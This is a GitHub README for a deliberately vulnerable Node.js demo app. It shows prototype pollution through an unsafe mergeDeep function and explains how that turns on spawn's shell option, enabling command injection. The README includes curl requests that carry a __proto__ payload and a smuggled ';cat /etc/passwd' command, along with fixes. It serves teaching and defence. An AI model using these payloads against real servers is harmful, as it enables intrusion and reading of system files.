


# prototype-pollution-demo

This repository provides an overly simplified example that demonstrates the possibly devastating impact of JS [prototype pollution](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications) in server-side Node.JS applications.

The `/status/:file?` route of the application presets the `git status` output of the current directory. It also accepts an optional file parameter passed to `git status <file>`.

## Running 

Run the example application with:

`npm start`

## Everything is fine

Since the `file` parameter is [passed as an argument](https://github.com/fourcube/prototype-pollution/blob/master/index.js#L19) to `git status` we try to perform a command injection by requesting [http://localhost:8000/status/;cat /etc/passwd](http://localhost:8000/status/;cat%20%2fetc%2fpasswd).

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: localhost:8000' -H $'Connection: close' \
    $'http://localhost:8000/status/;cat%20%2fetc%2fpasswd'
```




---
However, nothing terrible happens. By default, `child_process.spawn` is not running the command in a shell, so the meta-character injection fails.

The `child_process.spawn` [documentation](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) explicitly states that:


    If the `shell` option is enabled, do not pass unsanitized user input to this function. Any input containing shell metacharacters may be used to trigger arbitrary command execution.

So if this option is not enabled, our code must be safe to process arbitrary user inputs.


## Or is it?

We pollute the prototype by sending a specially crafted POST request to the `/notes` route.

The body of the request looks like this:

```json
{
    "author": "Chris",
    "note": "Some note",
    "meta": {
        "__proto__": {
            "shell": true
        }
    }
}
```

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 94' -H $'Content-Type: application/json' -H $'Connection: close' \
    --data-binary $'{\x0d\x0a  \"author\": \"Chris\",\x0d\x0a  \"note\": \"Some note\",\x0d\x0a\"meta\": {\"__proto__\": {\x0d\x0a\"shell\":true\x0d\x0a} }\x0d\x0a}' \
    $'http://localhost:8000/notes'
```

Then we try again:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: localhost:8000' -H $'Connection: close' \
    $'http://localhost:8000/status/;cat%20%2fetc%2fpasswd'
```



---
Every request to `/status` that happens after the malicious POST request can now run arbitrary code.

## What happened?

The [vulnerable](https://github.com/fourcube/prototype-pollution/blob/master/index.js#L48) `/notes` request handler uses the unsafe [`deepMerge`](https://github.com/fourcube/prototype-pollution/blob/master/utils.js#L17) function to recursively merge two JS objects:

```js
// index.js
const note = {
  meta: mergeDeep(  // <-- calls the vulnerable code
    {
      date: new Date(),
      author: req.body.author || "anonymous",
    },
    req.body.meta // <-- arbitrary user input
  ),
  text: req.body.note,
};

// utils.js
/**
 * Deep merge two objects.
 * @param target
 * @param ...sources
 */
function mergeDeep(target, ...sources) {
  if (!sources.length) return target;
  const source = sources.shift();

  if (isObject(target) && isObject(source)) {
    for (const key in source) {
      if (isObject(source[key])) {
        if (!target[key]) Object.assign(target, { [key]: {} });
        mergeDeep(target[key], source[key]);
      } else {
        // __proto__ is overwritten here
        Object.assign(target, { [key]: source[key] });
      }
    }
  }

  return mergeDeep(target, ...sources);
}
```

## How can it be fixed?

When merging user-specified objects, filter out the keys `__proto__` and `constructor` before copying. [This](https://github.com/lodash/lodash/blob/ddfd9b11a0126db2302cb70ec9973b66baec0975/lodash.js#L6609) is how lodash does it.

Passing user-supplied arguments to methods like `spawn` or `exec` should always raise a red flag. Passing the user-supplied command argument through https://github.com/rgov/node-shlex would prevent the command injection and provide a safeguard against programming errors of the future.